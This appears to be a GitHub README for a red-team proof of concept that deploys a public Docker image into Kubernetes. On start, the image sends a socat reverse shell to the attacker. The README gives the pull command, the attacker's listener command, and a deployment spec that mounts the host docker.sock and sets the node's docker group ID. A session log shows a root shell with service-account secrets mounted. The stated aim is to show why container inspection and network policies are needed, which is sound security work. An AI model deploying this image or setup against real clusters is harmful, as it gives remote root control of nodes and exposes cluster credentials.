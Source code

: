 This is a proof of concept aimed to demonstrate the need to implement containter inspection, network security policies, etc. in a Kubernetes cluster. Also a reminder to always review carefully what a docker container or kubernetes deployment /helm chart.

This deployment launches a docker container available in docker hub as below:

    docker pull jordimiralles/redteam-gkpown:latest

Whem the docker container starts it sends a reverse shell with socat to the specified addres and port. If your destination server is listening for that connection, like this, for example: 

        socat file:`tty`,raw,echo=0 tcp-listen:9532

At this point we have direct access to the docker. The fun part of the deal though is that the deployment also assigned the container the same group id as the kubernetes noes, like this:

        spec:
          securityContext:
            fsGroup: 412    # Group ID of docker group on k8s nodes.
          containers:
            - name: gkpown
              image: jordimiralles/redteam-gkpown
              imagePullPolicy: Always
              volumeMounts:
                - name: dockersock 
                  mountPath:   "/var/run/docker.sock"
          volumes:
          - name: dockersock 
            hostPath:
    path: /var/run/docker.sock

So we should have access to all the node context.You can check it very easily:
    
    tux at basecamp in ~/code/github/redteam-gkpown (master●●)
    $  socat file:`tty`,raw,echo=0 tcp-listen:9532
    /bin/sh: can't access tty; job control turned off
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # whoami
    root
    /gkpown # df -h
    Filesystem                Size      Used Available Use% Mounted on
    overlay                  25.4G     18.3G      7.0G  72% /
    tmpfs                     6.4G         0      6.4G   0% /dev
    tmpfs                     6.4G         0      6.4G   0% /sys/fs/cgroup
    /dev/sda1                25.4G     18.3G      7.0G  72% /dev/termination-log
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/resolv.conf
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hostname
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hosts
    shm                      64.0M         0     64.0M   0% /dev/shm
    tmpfs                     6.4G      2.0M      6.4G   0% /run/docker.sock
    tmpfs                     6.4G     12.0K      6.4G   0% /run/secrets/kubernetes.io/serviceaccount
    tmpfs                     6.4G         0      6.4G   0% /proc/kcore
    tmpfs                     6.4G         0      6.4G   0% /proc/timer_list
    tmpfs                     6.4G         0      6.4G   0% /sys/firmware
